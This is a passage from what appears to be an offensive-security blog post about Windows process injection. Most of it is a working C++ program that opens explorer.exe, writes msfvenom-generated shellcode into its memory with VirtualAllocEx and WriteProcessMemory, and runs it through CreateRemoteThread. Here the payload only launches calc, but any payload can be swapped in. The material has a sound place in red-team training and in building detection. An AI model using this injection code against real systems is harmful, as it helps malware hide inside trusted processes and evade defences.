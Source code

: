 
> _Huge thanks to Elastic for creating this awesome GIF and for their [awesome blog post](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)_

## Skeleton Code

Now, since we're "too lazy" to start from scratch, we can just simply search the web on how to do this. For this post, I'll use the code provided by [@spotheplanet](https://twitter.com/spotheplanet) in his [post](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection#executing-shellcode-in-remote-process) about this technique. 

So here's what the skeleton code would look like _(Note that I made very slight modifications with the code.)_:

```cpp
#include <Windows.h>

int main(int argc, char* argv[])
{
	// PID of explorer.exe
	DWORD pid = 5284;

	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
	SIZE_T shellcodeSize = sizeof(shellcode);

	HANDLE hProcess;
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

	PVOID baseAddress;
	baseAddress = VirtualAllocEx(hProcess, nullptr, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	WriteProcessMemory(hProcess, baseAddress, shellcode, shellcodeSize, nullptr);

	HANDLE hThread;
	hThread = CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE)baseAddress, nullptr, 0, nullptr);

	CloseHandle(hProcess);

	return 0;
}
```

